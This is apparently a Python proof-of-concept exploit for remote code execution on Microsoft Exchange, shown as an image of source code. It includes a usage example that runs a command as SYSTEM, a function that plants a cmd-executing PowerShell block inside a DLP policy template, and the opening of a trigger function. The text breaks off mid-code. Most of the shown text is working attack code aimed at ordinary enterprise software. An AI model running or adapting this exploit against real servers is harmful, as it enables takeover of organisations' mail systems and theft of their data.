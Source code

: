 ```angular2
WhenCreated                 : 6/12/2020 11:29:31 PM
WhenChangedUTC              : 6/12/2020 3:29:31 PM
WhenCreatedUTC              : 6/12/2020 3:29:31 PM
OrganizationId              :
Id                          : exchangedemo.com/Microsoft Exchange Security Groups/dlp users
OriginatingServer           : DEAD01.exchangedemo.com
ObjectState                 : Changed

# Example:

researcher@incite:~$ ./poc.py
(+) usage: ./poc.py <target> <user:pass> <cmd>
(+) eg: ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint

researcher@incite:~$ ./poc.py 192.168.75.142 harrym@exchangedemo.com:user123### mspaint
(+) logged in as harrym@exchangedemo.com
(+) found the __viewstate: /wEPDwUILTg5MDAzMDFkZFAeyPS7/eBJ4lPNRNPBjm8QiWLWnirQ1vsGlSyjVxa5
(+) executed mspaint as SYSTEM!
"""

import re
import sys
import random
import string
import urllib3
import requests
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def random_string(str_len=8):
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(str_len))

def get_xml(c):
    return """<?xml version="1.0" encoding="UTF-8"?>
<dlpPolicyTemplates>
  <dlpPolicyTemplate id="F7C29AEC-A52D-4502-9670-141424A83FAB" mode="Audit" state="Enabled" version="15.0.2.0">
    <contentVersion>4</contentVersion>
    <publisherName>si</publisherName>
    <name>
      <localizedString lang="en"></localizedString>
    </name>
    <description>
      <localizedString lang="en"></localizedString>
    </description>
    <keywords></keywords>
    <ruleParameters></ruleParameters>
    <policyCommands>
      <commandBlock>
        <![CDATA[ $i=New-object System.Diagnostics.ProcessStartInfo;$i.UseShellExecute=$true;$i.FileName="cmd";$i.Arguments="/c %s";$r=New-Object System.Diagnostics.Process;$r.StartInfo=$i;$r.Start() ]]>
      </commandBlock>
    </policyCommands>
    <policyCommandsResources></policyCommandsResources>
  </dlpPolicyTemplate>
</dlpPolicyTemplates>""" % c

def trigger_rce(t, s, vs, cmd):
    f = {
        '__VIEWSTATE': (None, vs),
        'ctl00$ResultPanePlaceHolder$senderBtn': (None, "ResultPanePlaceHolder_ButtonsPanel_btnNext"),
```